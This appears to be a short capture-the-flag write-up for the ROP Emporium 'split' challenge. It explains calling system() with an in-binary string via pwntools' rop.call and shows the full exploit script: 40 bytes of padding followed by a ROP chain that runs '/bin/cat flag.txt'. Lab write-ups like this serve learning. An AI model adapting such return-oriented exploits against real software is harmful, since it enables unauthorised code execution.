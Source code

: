 # split
this was an interesting one, learned about function calls with paramters using rop.call().

We call the system function which is already present in the binary and give it the argument of `usefulString` which is an “export/variable” in the program with the value of `/bin/cat flag.txt`

```text-x-python
from pwn import *

context.binary = binary = './split'
elf = ELF(binary)
rop = ROP(elf)

padding = b"A"*40
rop.call(elf.symbols.system, [elf.symbols.usefulString])

payload = flat(
        padding, rop.chain())

io = process(binary)

io.recvuntil(b'> ')
io.sendline(payload)

io.interactive()
```